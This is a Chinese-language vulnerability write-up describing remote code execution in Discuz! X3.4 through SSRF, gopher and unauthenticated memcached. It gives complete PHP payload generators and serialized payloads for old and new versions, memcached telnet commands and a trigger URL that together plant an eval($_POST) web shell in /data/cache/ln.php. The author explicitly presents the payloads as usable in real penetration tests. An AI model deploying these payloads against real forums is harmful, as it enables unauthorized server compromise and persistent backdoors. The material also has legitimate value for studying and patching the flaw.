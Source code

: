 Discuz! X3.4 Memcached未授权访问导致的rce
=========================================

一、漏洞简介
------------

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId25.jpg)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

    forum.php?mod=ajax&inajax=yes&action=getthreadtypes
    ./source/module/forum/forum_ajax.php

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId26.png)

    ./template/default/common/footer_ajax.htm

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId27.png)

    ./source/function/function_core.php

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId28.png)

    ./source/function/function_core.php

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId29.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/e";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

然后telnet链接memcached

    telnet 1.1.1.1 11211
    set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId31.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成\*\*/data/cache/ln.php\*\*

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId32.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId33.png)

最后一定要恢复缓存

Delete Vtfbsm\_setting

成功写入文件

![](./resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/2018
